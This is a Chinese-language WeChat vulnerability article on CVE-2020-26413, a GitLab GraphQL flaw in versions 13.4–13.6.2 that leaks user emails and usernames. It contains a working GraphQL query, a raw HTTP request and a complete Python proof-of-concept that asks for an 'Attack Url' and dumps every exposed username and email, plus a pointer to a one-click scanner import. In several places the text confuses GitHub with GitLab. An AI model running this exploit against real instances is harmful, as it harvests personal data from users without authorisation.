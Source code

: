 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/us6cQKy_h8aR1b2zUAzh_w)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

GitLab 中存在 Graphql 接口 输入构造的数据时会泄露用户邮箱和用户名

**二:  漏洞影响🐇**

**GitLab 13.4 - 13.6.2**

**三:  漏洞复现🐋**

**转 CNVD 的时候发现一个 Github 半公开的信息泄露漏洞**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7oF2l5ktS9dTWiaYTocYmtN7NPiceSMZRC3C3LRBa6rXceHQAKw7cr3FJpevqibnjVwu42Pn4iaW39tw/640?wx_fmt=png)

在 Hackone 中看到了有关的报告和修复方法

地址: https://gitlab.com/gitlab-org/gitlab/-/issues/244275  

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7oF2l5ktS9dTWiaYTocYmtNXAxrD1ibjG6VKFF2G547zibQsuJrJflTekpbVhcPuzD8Gp3QTkbtkthg/640?wx_fmt=png)

**这里报告的意思为调用 Graphql 的查询方法来返回用户的邮箱，而 GitLab 的用户邮箱并不是公开的**

**查看有关的 Github 与 Graphql 资料发现**

**Github 中是存在 Graphql 接口的** 

**接口地址为:** **http://xxx.xxx.xxx.xxx/-//graphql-explorer**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7oF2l5ktS9dTWiaYTocYmtNibOgWwOicO3f7aIcibCF0GaUUzN5lia5cOgLB7wic6lZicEfGM8Bdh9ZstTQ/640?wx_fmt=png)

**这里使用报告中的查询方法来获取用户邮箱，而这里的前提却是需要已知的用户名**

**通过查看文档等等，可以调用来返回用户邮箱**

**https://docs.github.com/en/graphql/overview/explorer**

**https://graphql.cn/**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7oF2l5ktS9dTWiaYTocYmtNBsDzXoTTIf23PKOk5F2uPAzokLDPQHUSrOHmjtKuBye3z8IjBI1pyQ/640?wx_fmt=png)

**请求 POC 为**

```
{
users {
edges {
  node {
    username
    email

   }
  }
 }
}
```

同样的通过抓包向接口发送数据也可以返回敏感数据

**请求包为**

```
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7oF2l5ktS9dTWiaYTocYmtNAJDFdhXXyELJiczAibN3CHJ9HLcF9eZUCP62NgUpC0appowMzJrnxDDQ/640?wx_fmt=png)

成功返回数据，造成 Gitlab 的用户邮箱信息泄露  

****四:  漏洞 POC🦉****

```
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: GitLab 13.4 - 13.6.2                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/graphql"
    user_number = 0
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json",
    }
    try:
        data = """
        {"query":"{\\nusers {\\nedges {\\n  node {\\n    username\\n    email\\n    avatarUrl\\n    status {\\n      emoji\\n      message\\n      messageHtml\\n     }\\n    }\\n   }\\n  }\\n }","variables":null,"operationName":null}
        """
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data ,verify=False, timeout=5)
        if "email" in response.text and "username" in response.text and "@" in response.text and response.status_code == 200:
            print('\033[32m[o] 目标{}存在漏洞, 泄露用户邮箱数据....... \033[0m'.format(target_url))
            for i in range(0,999):
                try:
                    username = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["username"]
                    email = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["email"]
                    user_number = user_number + 1
                    print('\033[34m[o] 用户名:{} 邮箱:{} \033[0m'.format(username, email))
                except:
                    print("\033[32m[o] 共泄露{}名用户邮箱账号 \033[0m".format(user_number))
                    sys.exit(0)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7oF2l5ktS9dTWiaYTocYmtNgy9whWZoVuXt8zfsjlvjLaBWpiaLiaUEkdOj6iaTq64KrDib9wvAXjca0Q/640?wx_fmt=png)

 ****五:  Goby & POC🦉****

```
GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413
EXP放在 Goby & POC 目录中可一键导入Goby扫描 
阅读原文 ----> Github ----> Goby & POC 目录
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7oF2l5ktS9dTWiaYTocYmtNDHfVn6pGmZib42ZTNicHUYH7icz8FG6TxwHyciafYjgz1h1kw6kUMpHTAg/640?wx_fmt=png)

最后
--

> 下面就是文库和团队的公众号啦，更新的文章都会在第一时间推送在公众号
> 
> 别忘了 Github 下载完给个小星星⭐

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6wnKTQvK0n8sFOQEEFQro75IHato7k7WJakCwObVtic8kOiagRSTylHIhHxg4DVKOhBFDazKkCMgvw/640?wx_fmt=png)